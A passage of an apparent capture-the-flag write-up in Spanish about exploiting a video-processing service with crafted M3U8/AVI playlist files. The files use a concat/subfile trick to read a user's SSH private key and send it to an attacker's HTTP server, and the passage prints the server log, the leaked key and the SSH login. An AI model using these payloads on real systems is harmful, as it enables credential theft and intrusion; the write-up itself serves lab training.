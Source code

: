 Para ello, hay que crear un archivo ```header.m3u8``` con el siguiente contenido:

```null
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://yourserver.com?
```

Es importante que no tenga el salto de línea del final

```null
00000000: 2345 5854 4d33 550a 2345 5854 2d58 2d4d  #EXTM3U.#EXT-X-M
00000010: 4544 4941 2d53 4551 5545 4e43 453a 300a  EDIA-SEQUENCE:0.
00000020: 2345 5854 494e 463a 2c0a 6874 7470 3a2f  #EXTINF:,.http:/
00000030: 2f31 302e 3130 2e31 362e 323f            /10.10.16.2?
```

En el archivo ```video.avi``` se indica el archivo al que se quiere acceder

```null
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://10.10.16.2/header.m3u8|subfile,,start,0,end,10000,,:/home/user/.ssh/id_rsa
#EXT-X-ENDLIST
```

Pero a la hora de exfiltrarlo no está completo

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.157 - - [20/Feb/2023 17:00:20] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [20/Feb/2023 17:00:21] "GET /header.m3u8 HTTP/1.1" 200 -
10.10.11.157 - - [20/Feb/2023 17:00:22] code 400, message Bad request syntax ('GET ?-----BEGIN OPENSSH PRIVATE KEY----- HTTP/1.1')
10.10.11.157 - - [20/Feb/2023 17:00:22] "GET ?-----BEGIN OPENSSH PRIVATE KEY----- HTTP/1.1" 400 -
```

Siguiendo este principio, es posible obtenerla al completo (Me puse a hacer un script en bash que lo automatizara, pero tenía errores a la hora de transformar el output)

```null
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDAAAAJjebJ3U3myd
1AAAAAtzc2gtZWQyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDA
AAAEDzdpSxHTz6JXGQhbQsRsDbZoJ+8d3FI5MZ1SJ4NGmdYC90VbMvu9VKf1wfp+AHdKC2
3Y4bhdEZiHm6B/wUsBgMAAAADnVzZXJAb3ZlcmdyYXBoAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```

Gano aceso por SSH

```null
ssh user@10.10.11.157 -i id_rsa

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Feb 20 18:01:51 2023 from 10.10.16.2
user@overgraph:~$
```
